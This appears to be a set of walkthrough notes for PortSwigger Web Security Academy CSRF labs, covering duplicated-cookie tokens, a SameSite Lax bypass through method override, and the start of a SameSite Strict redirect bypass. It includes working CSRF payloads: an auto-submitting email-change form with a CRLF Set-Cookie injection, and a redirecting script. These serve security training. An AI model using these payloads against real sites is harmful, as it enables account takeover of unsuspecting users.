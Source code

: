 ### CSRF where token is duplicated in cookie

It's just validating the csrf token is the same in the body parameter and the cookie. So, change both at the same time, and its valid. 

Generate a CSRF PoC, and use this img src instead of the script:
```text
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a0a00ef049ca07382e0ec3e009f00fe.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="admin&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="7yovoJL8jFq0JyC0m5XkKmM8RkYVY5AA" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a0a00ef049ca07382e0ec3e009f00fe.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=7yovoJL8jFq0JyC0m5XkKmM8RkYVY5AA%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>

```

Note the "csrf" in the body is equal to the Cookie `csrf`

---
### SameSite Lax bypass via method override

If you try to change your email, can see it's not sending or using any CSRF token. The only value is the cookie, marked as `SameSite: None`. We can see the response to the login request is setting the cookie, without any SameSite flag, so the browser will use the browser's default, which is `Lax` 

> This means the session cookie will be sent in cross-site `GET` requests, as long as they involve a top-level navigation.

Change the request method, and you'll get "Method not allowed" as response. Add this to the query string: `&_method=POST` and you can get the 302 response. 

Once validated this, you can create the malicious payload for the exploit server: 
```text
<script>
	document.location = "https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST"; 
</script>
```

---
### SameSite Strict bypass via client-side redirect

In the login, we can see the cookie is flagged as `SameSite: Strict`. 

> This prevents the browser from including these cookies in cross-site requests.

Try to submit a comment, and you'll see you are redirected to `/post/comment/confirmation?postId=x`, and then back at the post page `/post/1`

